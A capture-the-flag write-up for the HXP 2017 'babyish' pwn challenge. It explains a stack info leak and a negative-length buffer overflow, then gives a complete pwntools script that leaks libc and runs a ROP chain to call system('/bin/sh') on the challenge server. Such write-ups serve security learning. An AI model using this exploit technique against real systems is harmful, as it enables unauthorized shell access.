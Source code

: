 ```yaml
---
title: HXP CTF 2017 - babyish
date: '2017-11-24'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- ctf_hxp2017
- writeup
- hxp2017
tags:
- pwn
- rop
authors:
- dp1
---
```


For this challenge we get a small binary that first asks and prints a name and then reads a string.
Our first vulnerability lies in the `greet` function, where the stack allocated buffer isn't cleared before use.

```cpp
void __cdecl greet(FILE *in, FILE *out)
{
  int v2; // eax
  char buf[64]; // [esp+0h] [ebp-48h]

  printf("Enter username: ");
  v2 = fileno(in);
  read(v2, buf, 64u);
  fprintf(out, "Hey %s", buf);
}
```

Thus when the name is printed back, we get access to some stack variables. In particular, we can leak a libc address and a saved `esp` value.
Having all needed addresses, all that's left to do is overflow the second read by giving it a negative length and rop our way from there.

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[64]; // [esp+0h] [ebp-5Ch]
  int len; // [esp+40h] [ebp-1Ch]
  int *v7; // [esp+50h] [ebp-Ch]

  v7 = &argc;
  setbuf(stdout, 0);
  greet(stdin, stdout);
  sleep(1u);
  printf("Enter length: ");
  len = num();
  if ( len > 63 )
  {
    puts("No!");
    exit(1);
  }
  printf("Enter string (length %u): ", len);
  v3 = fileno(stdin);
  read(v3, buf, len);
  puts("Thanks, bye!");
  return 0;
}
```
There is still one small detail, though: at the end of main the saved value of esp is loaded back from the stack, so we actually have to add this value into our payload to make the application work. This is the relevant assembly at the end of main:
```cpp
.text:080487E2 010                 pop     ecx ; This loads the saved esp value
.text:080487E3 00C                 pop     ebx
.text:080487E4 008                 pop     esi
.text:080487E5 004                 pop     ebp
.text:080487E6 000                 lea     esp, [ecx-4] ; And here it is restored
.text:080487E9 000                 retn
```

Finally, we can call system and get a shell:
`hxp{b4bY's_2nd_pwn4bLe}`

---
Full exploit script:
```python
from pwn import *

#r = process('./vuln')
r = remote('35.198.98.140', 45067)

r.recvuntil(':')
r.sendline('AAAABBBBCCCCDDD')
leak = r.recvuntil('Enter length:')
stack_leak = u32(leak[21:25])
libc_base = u32(leak[25:29]) - 0xCD18
print 'libc base:  ' + hex(libc_base)
print 'stack leak: ' + hex(stack_leak)

rop = ''
rop += p32(libc_base + 0x3A840) # system
rop += p32(0x08048471) # pop; ret
rop += p32(libc_base + 0x15CD48) # "/bin/sh"

r.sendline('-4294967286')
r.sendline('A' * 80 + p32(stack_leak + 0x10) + 'A' * 28 + rop)

r.interactive()
```
